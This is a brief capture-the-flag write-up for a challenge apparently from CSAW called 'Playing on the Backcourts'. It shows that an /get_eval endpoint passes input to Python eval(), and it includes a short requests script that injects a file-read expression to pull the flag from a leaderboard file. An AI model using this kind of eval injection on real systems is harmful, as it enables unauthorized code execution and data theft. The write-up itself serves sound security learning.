 ## Playing on the Backcourts Write-up
By Minsuh (Endeavy)

1. Download the source code (app_public.py)
2. At first, I noticed that there is special page (/get_eval) where we can specify the input for eval().
3. Also, I thought safetytime variable was the flag, but it wasn't.
So, I look for hidden sfutff. And, I find out that we cannot access leaderboard unless if we get special cookie.
4. With eval(), we can extract hidden value.
```Python
import requests

res = requests.post("https://backcourts.ctf.csaw.io/get_eval", {"expr": "open(leaderboard_path, 'r').read()"})
print(res.text)
```
In the leaderboard, there was a flag.